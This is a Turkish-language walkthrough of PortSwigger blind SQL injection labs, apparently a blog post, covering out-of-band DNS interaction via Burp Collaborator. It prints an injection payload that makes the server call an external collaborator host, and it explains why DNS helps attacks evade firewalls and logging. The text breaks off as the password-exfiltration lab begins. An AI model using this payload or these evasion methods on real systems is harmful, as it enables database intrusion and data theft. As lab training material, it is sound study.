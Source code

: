 ' UNION SELECT LOAD\_FILE('\\\\\\\\btekinli.burpcollaborator.net\\\\test') --

Burdaki `LOAD_FILE()` fonksiyonuyla bir dosya okunmak isteniyor gibi gösteriyoruz fakat sunucu, dosya yerine DNS üzerinden bir sorgu gönderiyor ve bu sorgu Collaborator sunucusuna ulaşıyor. Sorgunun collaborator üzerinde görüntülenmesi, SQLi saldırısının başarılı olduğunu ve sunucunun isteği gönderdiğini doğrulamış oluyor. DNS isteği görülürse blind SQLi zafiyeti olduğunu ve sorgularımızı çalıştırabileceğimizi de anlamış oluyoruz. Ben bu konuya çalışırken **_neden HTTP değil de DNS kullanıldığını_** da merak etmiştim size de onun sebebini anlatmak istiyorum. Aslında bunun birçok sebebi var ben de bazılarını sıralayacağım:  
**1.** Güvenlik duvarı ya da WAF gibi sistemler, HTTP üzerinden yapılan dış bağlantı taleplerini engelliyor fakat DNS istekleri serbest bırakılıyor. Çünkü DNS internet bağlantısının bir parçası.  
**2.** DNS, IP adreslerini çözümlerken sadece küçük veri parçaları aktarıyor ve bu transferleri bant dışı veri sızdırmak için kullanabiliyoruz. Bu senaryoda da yapacağımız gibi basit sorgularla sunucudan dışarıya bilgi aktarılabilir ya da saldırının başarılı olup olmadığını doğrulayabiliriz. Kısaca DNS’in asenkron çalışması ve veri paketlerini direkt olarak incelememesi bu tür zafiyet senaryolarında bize büyük bir avantaj sağlıyor.  
**3.** Saldırıyı daha gizli kılmak için de DNS tercih etmek mantıklı oluyor çünkü DNS istekleri loglanmıyor ve HTTP kadar incelenmiyor.  
**4.** HTTP bant dışı veri akışlarında daha karmaşık bir protokol olması sebebiyle DNS kadar hızlı çalışmıyor.

Neyi neden yapacağımızı anladığımızı düşünüyorum. Son olarak Burp Suite Pro kullanıyorum bu yüzden collaborator özelliğinde yapacağım Community özelliğinde yok bilginiz olsun. Artık lab’a geçebiliriz. İlk olarak sorguyu

![](https://cdn-images-1.medium.com/max/800/1*0t11a3gw8aCj7PeQqwy4hA.png)

hint kısmında verilen [SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) sayfasından alıyorum. Collaborator’dan bir URL alıyorum ve bunu sorgu içinde belirtilen `BURP-COLLABORATOR-SUBDOMAIN` kısmına yapıştırıyorum.

![](https://cdn-images-1.medium.com/max/800/1*me9J66siGM7uosVQ15z0Bg.png)

İsteği gönderdiğimde tekrar collaborator’a gidip poll now yaparak DNS olarak geldiğini görüntülüyorum. Böylece lab’ı başarılı bir şekilde çözmüş oluyoruz.

### 17\. Lab: Blind SQL injection with out-of-band data exfiltration

> **Lab açıklaması:**  
> Bu laboratuvar blind SQLi güvenlik açığı içeriyor. Uygulama, analiz için bir tracking çerezi kullanır ve gönderilen çerezin değerini içeren bir SQL sorgusu gerçekleştirir. SQL sorgusu asenkron olarak yürütülür ve uygulamanın yanıtı üzerinde hiçbir etkisi yoktur. Ancak harici bir alanla bant dışı etkileşimleri tetikleyebilirsiniz. Veritabanı, kullanıcı adı ve parola adı verilen sütunlara sahip, `users` adı verilen farklı bir tablo içerir. Yönetici kullanıcının şifresini bulmak için blind SQLi güvenlik açığından yararlanmanız gerekir. Laboratuvarı çözmek için administrator kullanıcı olarak oturum açın.

Bu lab’da da yine bir önceki lab’da olduğu mantıkla hareket edicez tek fark users tablosundaki kullanıcı adları ve parolalar kısmından administrator kullanıcısının şifresini sızdırıp onun hesabına giriş yaparak lab’ı çözmemizi istiyor. Bir önceki lab’da sadece collaborator kullanımını öğretmek için burp subdomain’ini kullanabilmemizi ve blind SQLi türünün DNS ile mantığını anlamamızı istiyordu. Şimdi ayrıca sorguyu da farklılaştırıp şifre sızdırmamızı istiyor. Lab’a girdiğimizde yine `/` sayfa yüklendiğinde bize bir tracking id veriliyor. Bunun için de gerekli sorguyu
